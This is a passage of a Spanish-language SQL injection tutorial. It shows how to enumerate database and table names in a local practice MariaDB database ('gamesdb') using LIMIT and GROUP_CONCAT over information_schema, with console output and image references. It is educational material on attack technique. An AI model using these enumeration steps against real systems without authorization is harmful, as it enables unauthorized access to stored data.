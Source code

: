 Quedando la query final tal que así:

![img](/assets/img/sqli/limit0.png)

![img](/assets/img/sqli/limit1.png)

![img](/assets/img/sqli/limit2.png)

![img](/assets/img/sqli/limit3.png)

El otro metodo es con `GROUP_CONCAT()`, que concatena toda la información en una única fila.

```sql
MariaDB [gamesdb]> select group_concat(schema_name) from information_schema.schemata;
+-----------------------------------------------------+
| group_concat(schema_name)                           |
+-----------------------------------------------------+
| information_schema,mysql,performance_schema,gamesdb |
+-----------------------------------------------------+
1 row in set (0,000 sec)
```

![img](/assets/img/sqli/group_concat.png)

Teniendo ya los nombre de las bases de datos, veamos las tablas que contiene la base de datos llamada `gamesdb`, los nombres de las tabla se guardan en la columna `table_name` de la tabla `tables` pero cabe resaltar que si añadimos directamente la query así, nos mostrara todas las tablas de todas las bases de datos.

```sql
MariaDB [(none)]> select table_name from information_schema.tables;
+------------------------------------------------------+
| table_name                                           |
+------------------------------------------------------+
| ALL_PLUGINS                                          |
| APPLICABLE_ROLES                                     |
| CHARACTER_SETS                                       |
| CHECK_CONSTRAINTS                                    |
| COLLATIONS                                           |
| COLLATION_CHARACTER_SET_APPLICABILITY                |
| COLUMNS                                              |
| COLUMN_PRIVILEGES                                    |
| ENABLED_ROLES                                        |
| ENGINES                                              |
```